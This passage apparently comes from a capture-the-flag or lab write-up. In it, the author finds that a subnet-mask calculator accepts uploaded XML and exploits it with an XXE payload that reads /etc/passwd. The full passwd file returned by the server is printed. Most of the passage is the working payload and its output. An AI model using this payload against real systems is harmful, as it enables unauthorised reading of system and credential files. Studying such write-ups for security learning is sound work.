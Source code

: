 HTTP Response:
```
HTTP/1.1 200 OK
Date: Tue, 10 Jul 2018 11:35:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 53
Connection: close
Content-Type: text/html; charset=UTF-8


There are 62 possible hosts for 255.255.255.192
```

Now we're talking, uploading XML file hints to XXE, let's try with this payload:
```xml
<!DOCTYPE details [ 
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<details>
    <subnet_mask>&file;</subnet_mask>
    <test></test>
</details>
```

And it works, data from the response is:
```
There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
```